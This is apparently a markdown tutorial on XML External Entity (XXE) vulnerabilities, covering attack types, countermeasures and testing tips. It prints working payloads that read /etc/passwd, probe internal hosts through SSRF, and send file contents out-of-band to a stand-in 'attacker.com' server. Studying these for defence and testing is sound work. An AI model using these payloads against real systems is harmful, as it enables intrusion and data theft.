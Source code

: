 # XML eXternal Entities Vulnerability

XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. (Can be used to to disclose various configuration file information, which the attackers then use to exploit the system further)

### What are XML External Entities
- External entity profiles are defined by outside sources such as a file on a local computer or a web URL. Such entities are used to ensure that the XML processor behaves consistently even when unexpected characters are parsed.

## XXE Attack 
- XXE vulnerabilities as uploading an XML file that includes an external entity.
```xml
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo
```


## Types of XXE Attacks: 

- XXE for File Retrieval
	- ```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```
	- Defining a new Entity called ```xxe```. This entity is made to execute a system call.
- XXE for Server-Side Request Forgery 
	- ```xml 
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internals.target.com"> ]>```
	- System call to an HTTP endpoint of an internal webserver of which we should not see the contents from outside.
- Data out-of-band exfiltration (Blind XXE)
	- ```xml
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://Attacker.com"> ]>```
	- Make a callback to our server.
	- ```
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % evil "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
	%evil;
	%exfiltrate;
	```



***


## Countermeasures:

- Use simple data formats. (JSON as example)
- Use updated XML processes and libraries.
- Disable Document Type Definition and XXE in all XML Parsers.
- Usage of Whitelisting for Server-Side Input Validation.

***

## Takeaways: 

- It'simportant to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields indivually.
- Trying to upload a file that will test for XXE on every entry point where an XML
is processed
- Look into for SVG/DOC/XLSX & SOAP requests.

